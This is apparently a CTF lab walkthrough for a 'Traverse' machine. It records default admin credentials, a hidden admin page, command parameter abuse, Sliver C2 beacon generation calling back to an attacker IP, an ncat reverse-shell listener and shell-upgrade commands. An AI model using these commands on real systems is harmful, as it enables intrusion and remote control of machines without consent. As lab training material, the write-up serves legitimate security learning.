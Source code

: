 `admin : admin_key!!!`

This does not work by the way...
![](sadpassword.png)

Login Here .. therefore
![](loginhere.png)

...`/realadmin`
![](realestadminloginpage.png)

We are ` realadmin@traverse.com : admin_key!!!` 
![](systemcmdunlocked.png)

I now need to fuzz authenticated with all previous tools for sake of completeness. And to remeber how to do it... feel free to skip the the "Command parameter abuse..." section. 

#### Command parameter abuse... 

![](commands.png)

Send to repeater and go-partial-cyber by creating a sliver beacon for a additional usage in the Beyond Root section... Preparation as the beacno needs to compile -  I am being lazy and you should probably use both server and client
```go
sliver-server
// update
update
// Create beacon
generate beacon --mtls 10.11.3.193:8443 --arch amd64 --os linux --save /home/kali/Traverse/
// Listener
mtls -L 10.11.3.193 -l 8443
```

Either 6969 or 9001 for your memes or port that will bypass firewalls 
```bash
# Ssh port on > 1024 port https://www.linuxquestions.org/questions/linux-security-4/what-are-common-ports-for-ssh-besides-port-22-a-753731/ 
rlwrap ncat -lvnp 2222
```

![](greatbrowserplugin.png)

The next two questions
![1080](andbangtheshellisdone.png)

Proof and next two questions...
![](nexttwoquestions.png)

Spawn a `pty` shell 
```bash
which python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
[CTRL+z]
stty raw -echo;fg
```
